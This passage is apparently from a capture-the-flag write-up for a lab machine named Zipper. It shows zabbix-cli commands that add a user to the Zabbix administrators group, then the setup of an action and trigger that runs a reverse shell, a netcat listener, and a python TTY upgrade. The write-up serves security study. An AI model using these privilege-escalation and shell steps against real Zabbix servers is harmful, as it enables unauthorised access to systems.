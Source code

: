 At first, enable the GUI console and change the group to "Zabbix administratiors".
{% highlight shell %}
[zabbix-cli zapper@zabbix-ID]$  show_usergroups
+---------+---------------------------+--------------------+-------------+--------+
| GroupID | Name                      |     GUI access     |    Status   | Users  |
+---------+---------------------------+--------------------+-------------+--------+
|       9 | Disabled                  | System default (0) | Disable (1) |        |
|      11 | Enabled debug mode        | System default (0) |  Enable (0) | me     |
|       8 | Guests                    | System default (0) |  Enable (0) | guest  |
|      12 | No access to the frontend |    Disable (2)     |  Enable (0) | zapper |
|       7 | Zabbix administrators     | System default (0) |  Enable (0) | Admin  |
+---------+---------------------------+--------------------+-------------+--------+

[zabbix-cli zapper@zabbix-ID]$ add_user_to_usergroup zapper 7

[Done]: Users zapper added to these usergroups: 7

[zabbix-cli zapper@zabbix-ID]$ remove_user_from_usergroup zapper "No access to the frontend"

[Done]: User zapper removed from this usergroup: No access to the frontend
{% endhighlight %}

Next, login with Web console and go to Configuration->Actions.

![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-24/2019-02-24-15-47-02.png)

Create new action which executes reverse shell<br>
Action window:
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-24/2019-02-24-17-46-27.png)
Conditions window:
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-24/2019-02-24-17-47-05.png)
Operations window:
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-24/2019-02-24-17-48-16.png)

Next, we have to create a new trigger for the action.<br>
Go Configuration->Hosts->Zipper(hostname)->Triggers->Create trigger

![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-24/2019-02-24-17-57-03.png)

We have to wait for a while for getting a reverse shell.

{% highlight shell %}
root@kali:~# nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 56834
/bin/sh: 0: can't access tty; job control turned off

# Getting tty
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@zipper:~$
{% endhighlight %}


[INFO]: wrote config to '/root/.zabbix-cli/zabbix-cli.conf'